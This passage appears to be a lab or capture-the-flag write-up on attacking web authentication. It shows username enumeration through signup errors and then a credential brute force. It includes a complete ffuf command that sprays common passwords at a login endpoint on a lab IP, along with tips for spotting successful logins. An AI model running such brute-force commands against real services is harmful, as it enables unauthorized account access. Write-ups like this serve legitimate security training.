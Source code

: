 
Outcome: built `valid_usernames.txt` for later use.

Evidence:

![Signup error reveals existing username](../screenshots/username-exists.png)

#### 2) Brute Force Against Login

With valid usernames in hand, I ran a credential brute force using two wordlists (usernames and common passwords). I filtered out HTTP 200 to surface non‑200 responses that may indicate successful auth or redirects.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
     -X POST \
     -d "username=W1&password=W2" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -u http://10.201.81.187/customers/login \
     -fc 200
```

Notes:

- I cleaned raw `ffuf` output to ensure `valid_usernames.txt` contained only usernames.
- I watched for response size and status code anomalies to identify valid logins.

Evidence:


![Brute‑force ffuf results](../screenshots/bruteforce-results.png)
